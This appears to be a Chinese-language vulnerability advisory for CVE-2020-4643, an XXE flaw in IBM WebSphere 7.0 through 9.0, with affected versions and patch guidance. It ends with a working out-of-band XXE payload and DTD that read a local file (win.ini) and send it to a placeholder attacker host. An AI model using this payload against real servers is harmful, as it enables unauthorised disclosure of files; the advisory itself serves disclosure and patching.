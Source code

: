 # CVE-2020-4643 IBM WebSphere存在XXE外部实体注入漏洞

**漏洞分析：**

IBM WebSphere 应用程序服务器7.0、8.0、8.5 和9.0 在处理XML 数据时容易受到XML 外部实体注入（XXE） 攻击。远程攻击者可以利用此漏洞公开敏感信息。IBM Xforce ID：185590。

**影响范围:**

WebSphere Application Server 7.0版本

WebSphere Application Server 8.0版本

WebSphere Application Server 8.5版本

WebSphere Application Server 9.0版本

**修复建议：**

官方已经提供的补丁版本列表：

WebSphere 9.0.0.0 - 9.0.5.5版本，建议升级到9.0.5.6以上版本或安装补丁

WebSphere 8.5.0.0 - 8.5.5.17版本，建议升级到8.5.5.19以上版本或安装补丁

WebSphere 8.0.0.0 - 8.0.0.15版本，建议先升级到8.0.0.15版本再安装补丁

WebSphere 7.0.0.0 - 7.0.0.45 版本，建议先升级到7.0.0.45版本再安装补丁

```
xml如下：
<!DOCTYPE x [  
   <!ENTITY % aaa SYSTEM "file:///C:/Windows/win.ini">  
   <!ENTITY % bbb SYSTEM "http://yourip:8000/xx.dtd">  
   %bbb; 
]> 
<definitions name="HelloService" xmlns="http://schemas.xmlsoap.org/wsdl/">  
&ddd; 
</definitions>

 xx.dtd如下：
 <!ENTITY % ccc '<!ENTITY ddd &#39;<import namespace="uri" location="http://yourip:8000/xxeLog?%aaa;"/>&#39;>'>%ccc;
```